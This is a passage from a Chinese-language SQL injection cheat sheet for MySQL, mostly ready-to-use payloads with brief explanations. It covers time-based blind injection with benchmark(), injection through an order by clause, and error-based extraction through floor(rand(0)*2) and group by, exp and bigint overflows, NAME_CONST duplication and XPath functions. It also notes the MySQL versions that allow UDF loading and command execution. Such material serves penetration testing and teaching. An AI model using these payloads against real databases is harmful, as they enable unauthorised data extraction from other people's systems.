- benchmark()

  ```mysql
  union select if(substring(current,1,1)=char(119),benchmark(5000000,ENCODE('MSG','by 5 seconds')),null) FROM (select database() as current) as tb1;
  
  benchmark(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过实践长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的CPU资源。
  ```

##### Order by注入：

- 在SQL注入防御是参数化查询时可以用order by注入，order by后的asc、desc参数是无法参数化的，一些开发人员会使用拼接方法连接语句，产生注入点。

  ```mysql
  ASC, if((1=1),1,(select 1 from information_schema.tables))
  ```

##### 数据库版本：

- mysql5.0以后	information_schema库出现
- mysql5.1以后    udf导入xx\lib\plugin\目录下
- mysql5.x以后    system执行命令

##### 手工注入总结：

- 报错方法集合：

  - 经典的count(\*)、floor(rand(0)\*2)、group by

  ```mysql
  select 1,count(*),concat(0x7e,version(),0x7e,floor(rand(0)*2))x from information_schema.columns group by x
  或
  select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))
  大致上是说floor(rand(0)*2)会产生确定的011011序列，而group by工作时先创建一个虚拟表(可以认为是最终的查询结果表)，会产生错误的关键原因是当group by遇到虚拟表中不存在的值时，应该将该值插入同时count计数为1，但floor(rand(0)*2)会再运算一次（就是说如果虚拟表中没有floor(rand(0)*2)当前计算的值时，往虚拟表中插入的时候它还会计算一次）使用条件是查询表中至少得有3条记录。
  
  如果关键的表被禁用了，可以使用这种形式
  select count(*) from (select 1 union select null union select(!1) group by concat(version(),floor(rand(0)*2)))
  
  如果rand被禁用了可以使用用户变量来报错
  select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
  ```

  - 其他报错

  ```mysql
  EXP溢出报错
  select exp(~(select * from(select user())a))	//double数值类型超出范围
  exp()为以e为底的对数函数；适用版本大于等于5.5.5小于5.6
  
  select !(select * from (select user())x) - ~0	//bigint超出范围
  ~0是对0逐位取反；适用版本大于等于5.5.5
  
  mysql重复特性
  select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x
  此处重复了version
  
  XPATH语法错误
  updatexml(XML_document, XPath_string, new_value);
  extractvalue(XML_document, XPath_string);
  ```
